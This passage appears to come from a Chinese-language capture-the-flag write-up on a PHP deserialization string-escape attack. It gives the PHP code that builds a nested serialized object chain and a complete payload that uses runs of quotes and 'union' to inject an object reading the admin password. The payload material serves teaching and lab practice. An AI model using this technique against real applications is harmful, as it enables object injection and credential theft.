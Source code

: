 ```
$i->CtrlCase=$d;
$u = new user();
$u->nickname=$i;
$U=new UpdateHelper();
$U->sql=$u;

echo serialize($U);

?>
```

之后作为 CtrlCase 的值传入

```
";s:8:"CtrlCase";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:45:"select password,id from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";N;s:6:"mysqli";N;s:5:"token";s:5:"admin";}}}}}
```

一共 443 字节

用 80 个单引号和三个 union 挤出这部分

完整payload

```
age=&nickname=''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''unionunionunion";s:8:"CtrlCase";O:12:"UpdateHelper":3:{s:2:"id";N;s:7:"newinfo";N;s:3:"sql";O:4:"User":3:{s:2:"id";N;s:3:"age";s:45:"select password,id from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":8:{s:8:"hostname";s:9:"127.0.0.1";s:6:"dbuser";s:4:"root";s:6:"dbpass";s:4:"root";s:8:"database";s:4:"test";s:4:"name";s:5:"admin";s:8:"password";N;s:6:"mysqli";N;s:5:"token";s:5:"admin";}}}}}
```